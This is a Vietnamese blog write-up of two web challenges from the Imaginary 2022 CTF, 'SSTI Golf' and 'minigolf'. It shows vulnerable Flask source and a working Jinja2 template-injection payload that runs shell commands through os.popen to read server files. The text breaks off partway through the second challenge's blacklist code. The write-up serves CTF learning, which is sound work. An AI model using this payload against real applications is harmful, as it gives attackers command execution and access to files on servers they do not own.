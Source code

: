 ```yaml
---
layout: post
title:	"Imaginary 2022 CTF"
date:	2022-07-19 13:06:00
categories:
    - blog
tags:
    - web
---
```


# SSTI Golf
{% raw %}
Đề bài cho thẳng source có lỗi SSTI như sau

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Check param `query` tại `/ssti` và giới hạn độ dài là 48. Bài này thì easy rồi nên mình cho thẳng payload mình hay dùng.

```python
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![image](https://user-images.githubusercontent.com/75429369/179644681-16ad9d92-6c4c-4e2f-896a-46d4e4f950a8.png)

# minigolf

Một bài SSTI khác nhưng lần này khó hơn ở chỗ tác giả đã filter thêm một số ký tự `{{` `[` `_`

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
```